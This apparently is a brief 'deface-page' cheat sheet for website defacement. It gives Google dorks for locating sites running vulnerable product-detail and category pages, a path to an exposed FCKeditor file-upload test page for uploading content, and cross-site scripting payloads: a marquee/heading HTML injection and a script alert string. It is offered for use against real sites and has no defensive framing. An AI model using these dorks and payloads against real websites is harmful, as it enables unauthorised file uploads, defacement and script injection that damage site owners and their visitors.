 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html


xss : cross site scripting

Dork :

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque>

Search Site And Add This Xss Dork <script>alert("Xss")</script>
